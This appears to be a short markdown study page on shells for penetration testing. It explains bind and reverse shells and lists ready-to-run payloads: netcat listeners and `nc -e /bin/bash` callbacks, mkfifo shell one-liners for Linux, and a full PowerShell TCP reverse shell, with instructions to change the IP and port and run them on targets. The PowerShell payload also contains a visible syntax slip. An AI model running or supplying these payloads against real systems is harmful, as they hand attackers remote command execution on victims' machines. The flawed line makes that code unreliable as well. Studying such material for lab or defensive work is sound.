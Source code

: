 # Shell

Shells are used to interact with CLI(get a better defination from wiki).

When attacking a remote machine we try to use the vulnerability of the service running to a get a reverse shell.

Check this [Shell vs terminal](https://www.geeksforgeeks.org/what-is-terminal-console-shell-and-kernel/#:~:text=After%20writing%20our%20commands%20on,1.&text=2.,-Checks%20the%20syntax)

There are two kinds of shells bind shells and reverse shells.

When we force the target to send a reverse connection and receive it using a listener like netcat than it is called reverse shell. Reverse shell can bypass firewall.

Eg: On attack machine run `nc -lvnp <port>` and in target machine run `nc <attack-ip> <port> -e /bin/bash`. Now you will get a reverse shell.

Bind shells means opening up a port on the target to run our commands.

Eg: On target machine run `nc -lvnp <port> -e "cmd.exe"` and in attack machine run `nc <target-ip> <port>`

Now we got the shell it is very unstable and limited. It can be upgraded using python, socat or rlwrap. Python technique is explained in commands.

For rlwrap just use it with nc like `rlwrap nc -lvnp <port>`

## Common Shell Payloads
For Linux targets
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
For windows powershell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Change the ip and port and run on the target machines

[Payload Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
